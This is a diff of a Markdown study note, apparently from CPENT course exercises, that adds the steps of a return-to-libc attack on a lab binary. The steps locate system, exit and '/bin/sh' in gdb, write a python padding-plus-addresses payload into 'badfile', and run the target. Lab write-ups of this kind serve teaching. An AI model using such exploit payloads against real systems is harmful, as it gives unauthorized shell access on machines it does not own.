

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day4.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day4.md
+++ b/Cpent/Day4.md
@@ -154,3 +154,14 @@ Return to Libc
     r
 ![image](https://github.com/user-attachments/assets/f56d03e9-a95f-4291-ba9f-ff2d950b5122)
 ![image](https://github.com/user-attachments/assets/2b1c9b3e-ad21-45fc-9c6a-d9660ef713f1)
+
+    因有NX保護，無法在其他區域執行程式碼，所以要將ret address指到/bin/sh
+    p system
+    p exit
+    find /bin/sh
+![image](https://github.com/user-attachments/assets/d9d1b723-5667-4a89-bfd0-34074a0e55f6)
+
+    將找到的機器語言加入到badfile
+    python -c 'print "A"*24 + "\xb0\xfd\xe3\xb7" + "\xe0\x39\xe3\xb7" +"\x2b\x0b\xf6\xb7"'     > badfile
+    ./retlib
+![image](https://github.com/user-attachments/assets/7078dd06-c7f2-4d3f-8cd8-ce23cff82a0b)
```
